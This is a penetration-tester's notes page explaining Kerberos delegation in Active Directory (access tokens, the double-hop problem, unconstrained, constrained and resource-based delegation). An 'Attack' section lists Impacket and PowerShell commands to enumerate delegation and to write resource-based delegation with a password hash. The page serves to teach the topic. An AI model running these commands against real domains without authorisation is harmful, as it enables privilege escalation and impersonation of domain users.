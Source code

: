 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Delegation

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=p9QFdITuvgU) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).
{% endhint %}

## TL;DR

**Access tokens** represent the **local security context** of a user, are cached in `LSASS` (SSO[^1]), and they are tied to a logon session's ID. Therefore, both the access token and the logon session exist on the same host (Figure 1)

<figure><img src="../../../../.gitbook/assets/delegation_simple_atlas.png" alt=""><figcaption><p>Figure 1: Local authentication (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Credentials** represent the **network security context** of a user (hashes, tickets, etc.) and are **tied to a logon session**. Thus, if a user authenticates to an application with its access token, and then the application needs to authenticate to a remote server, the **double hop problem** arises (Figure 2).

<figure><img src="../../../../.gitbook/assets/delegation_double_hop.png" alt=""><figcaption><p>Figure 2: The double hop problem (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Delegation aims to solve the double hop issue by allowing services to impersonate users, not only locally, but in the network**. In brief, the user sends its "whole" credentials  to the server, which results in a similar situation as if the user and the server were residing on the same host (Figure 3).

<figure><img src="../../../../.gitbook/assets/delegation_example.png" alt=""><figcaption><p>Figure 3: How the delegation process works (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Kerberos delegations **allow services to impersonate domain users in order to access another service** and include 3 types:

1. [Unconstrained](unconstrained.md) (UD)
2. [Constrained](constrained.md) (CD)
3. [Resource-based](resource-based.md) (RBCD)

## Attack

Enumerate.

{% tabs %}
{% tab title="Impacket" %}
```bash
findDelegation.py '<domain>/<user>':'<pass>' -user <account>
```
{% endtab %}

{% tab title="PowerShell AD Module" %}
{% code overflow="wrap" %}
```powershell
# TrustedForDelegation -> KUD, TrustedToAuthForDelegation -> KCD+PT
# AllowedToDelegateTo -> KCD-PT, PrincipalsAllowedToDelegateTo -> RBCD
Get-ADComputer <account> -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% code overflow="wrap" %}
```bash
# assign delegation
impacket-rbcd '<domain>/<user>' -hashes <:hash> -k -delegate-from <account> -delegate-to <account> -action write -dc-ip <hostname> -use-ldaps
# check delegation
impacket-findDelegation '<domain>/<user>':'<pass>' -dc-ip <ip> -k
```
{% endcode %}

## Resources

* Some amazing lectures about Kerberos Delegation ([video](https://www.youtube.com/watch?v=p9QFdITuvgU), [video](https://www.youtube.com/watch?v=byykEId3FUs))
* A great presentation about Kerberos Delegation Attacks ([slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf))
* Some good information about Delegations ([article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/))

[^1]: Single Sign-On
